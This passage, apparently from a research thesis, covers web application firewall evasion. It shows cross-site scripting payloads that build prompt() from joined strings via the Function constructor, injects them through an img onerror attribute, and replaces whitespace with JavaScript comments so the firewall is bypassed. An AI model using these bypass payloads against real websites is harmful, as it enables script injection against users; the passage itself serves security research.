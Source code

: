 \begin{lstlisting}[style=basicStyle, language=Python]
[]['constructor']['constructor'](`var s = 'secret'; promp` + `t(s, s)`)()
\end{lstlisting}
While this payload successfully bypasses the evaluated firewall configuration, when evaluating this payload using the test code snipped mentioned under Section~\ref{sec:evaluation}, it turned out to be invalid. After parsing and injecting the payload into the \acrshort{html} page according to the following statements:

\begin{lstlisting}[style=basicStyle, language=Python, escapeinside=\^\^]
const injection = 
  JSON.parse("{\"body\":\"[]['constructor']['constructor'](`var s = 'secret'; promp` + `t(s, s)`)()\"}")

document.getElementById('div1').insertAdjacentHTML('afterbegin', `<img src=0 onerror=${injection.body}>`)
\end{lstlisting}
the resulting \acrshort{html} code did not execute the given statements inside the payload as expected. It resulted in the following \acrshort{html} code:

\begin{lstlisting}[style=basicStyle, language=Python, escapeinside=\^\^]
<div id="div1">
	<img src="0" onerror="[]['constructor']['constructor'](`var" s="secret" ;="" promp`="" +="" `t(s,="" s)`)()="">
</div>
\end{lstlisting}
In order to avoid the splitting of statements synchronous to whitespaces in the payload string, JavaScript comment substitution was used.
According to the JavaScript comment substitution technique stated under Section~\ref{sec:jscommentsub}, all whitespaces were replaced by JavaScript comments, creating the payload:

\begin{lstlisting}[style=basicStyle, language=Python, caption={Function() constructor + string concatenation in square bracket notation bypass}, label={lst:funconbypasssbn}]
[]['constructor']['constructor'](`var/**/s/**/=/**/'secret';/**/promp`/**/+/**/`t(s,/**/s)`)()
\end{lstlisting}
A request containing this payload bypassed the firewall. After injecting it into the test \acrshort{html} page during validation, it resulted in the valid \acrshort{html} code:

\begin{lstlisting}[style=basicStyle, language=Python, escapeinside=\^\^]
<div id="div1">
	<img src="1" onerror="[]['constructor']['constructor'](`var/**/s/**/=/**/'secret';/**/promp`/**/+/**/`t(s,/**/s)`)()">
</div>
\end{lstlisting}

